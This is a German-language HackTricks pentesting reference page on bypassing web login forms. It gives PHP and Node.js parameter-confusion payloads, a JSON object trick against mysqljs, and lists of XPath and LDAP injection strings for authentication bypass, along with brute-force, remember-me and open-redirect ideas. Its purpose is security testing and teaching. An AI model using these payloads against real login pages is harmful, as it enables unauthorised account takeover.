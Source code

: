 # Login Bypass

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) ist die relevanteste Cybersecurity-Veranstaltung in **Spanien** und eine der wichtigsten in **Europa**. Mit **der Mission, technisches Wissen zu fördern**, ist dieser Kongress ein brodelnder Treffpunkt für Technologie- und Cybersecurity-Profis in jeder Disziplin.

{% embed url="https://www.rootedcon.com/" %}

## **Umgehung des regulären Logins**

Wenn du eine Login-Seite findest, kannst du hier einige Techniken finden, um zu versuchen, sie zu umgehen:

* Überprüfe die **Kommentare** auf der Seite (nach unten und nach rechts scrollen?)
* Überprüfe, ob du **direkt auf die eingeschränkten Seiten zugreifen** kannst
* Überprüfe, ob du die **Parameter nicht sendest** (keine oder nur 1 senden)
* Überprüfe den **PHP-Vergleichsfehler:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Ändere den Inhaltstyp auf json** und sende json-Werte (bool true eingeschlossen)
* Wenn du eine Antwort erhältst, die besagt, dass POST nicht unterstützt wird, kannst du versuchen, das **JSON im Body, aber mit einer GET-Anfrage** mit `Content-Type: application/json` zu senden
* Überprüfe den möglichen Parsing-Fehler in Nodejs (lies [**dies**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs wird diese Payload in eine Abfrage umwandeln, die der folgenden ähnelt: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` was dazu führt, dass das Passwort immer wahr ist.
* Wenn du ein JSON-Objekt senden kannst, kannst du `"password":{"password": 1}` senden, um den Login zu umgehen.
* Denk daran, dass du, um diesen Login zu umgehen, immer einen **gültigen Benutzernamen kennen und senden** musst.
* **Hinzufügen der Option `"stringifyObjects":true`** beim Aufruf von `mysql.createConnection` wird schließlich **alle unerwarteten Verhaltensweisen blockieren, wenn `Object` im Parameter übergeben wird.**
* Überprüfe die Anmeldeinformationen:
* [**Standardanmeldeinformationen**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) der verwendeten Technologie/Plattform
* **Häufige Kombinationen** (root, admin, password, Name der Technologie, Standardbenutzer mit einem dieser Passwörter).
* Erstelle ein Wörterbuch mit **Cewl**, **füge** den **Standard** Benutzernamen und das Passwort (falls vorhanden) hinzu und versuche, es mit allen Wörtern als **Benutzernamen und Passwort** zu brute-forcen
* **Brute-Force** mit einem größeren **Wörterbuch (**[**Brute Force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection Authentifizierungsumgehung

[Hier findest du mehrere Tricks, um den Login über **SQL-Injektionen** zu umgehen](../sql-injection/#authentication-bypass).

Auf der folgenden Seite findest du eine **benutzerdefinierte Liste, um den Login** über SQL-Injektionen zu umgehen:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### Keine SQL Injection Authentifizierungsumgehung

[Hier findest du mehrere Tricks, um den Login über **Keine SQL-Injektionen** zu umgehen](../nosql-injection.md#basic-authentication-bypass)**.**

Da die NoSQL-Injektionen erfordern, dass die Parameterwerte geändert werden, musst du sie manuell testen.

### XPath Injection Authentifizierungsumgehung

[Hier findest du mehrere Tricks, um den Login über **XPath Injection** zu umgehen.](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um sich über **LDAP Injection** anzumelden.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

Wenn die Seite eine "**Remember Me**" Funktionalität hat, überprüfe, wie sie implementiert ist und sieh nach, ob du sie missbrauchen kannst, um **andere Konten zu übernehmen**.

### Redirects

Seiten leiten Benutzer normalerweise nach dem Login um, überprüfe, ob du diese Umleitung ändern kannst, um einen [**Open Redirect**](../open-redirect.md) zu verursachen. Vielleicht kannst du einige Informationen (Codes, Cookies...) stehlen, wenn du den Benutzer auf deine Webseite umleitest.

## Other Checks

* Überprüfe, ob du **Benutzernamen enumerieren** kannst, indem du die Login-Funktionalität missbrauchst.
* Überprüfe, ob **Auto-Complete** in den Passwort/**sensiblen** Informationen **Formularen** **aktiv** ist: `<input autocomplete="false">`

## Automatic Tools
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) ist die relevanteste Cybersecurity-Veranstaltung in **Spanien** und eine der wichtigsten in **Europa**. Mit **der Mission, technisches Wissen zu fördern**, ist dieser Kongress ein brodelnder Treffpunkt für Technologie- und Cybersecurity-Profis in jeder Disziplin.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
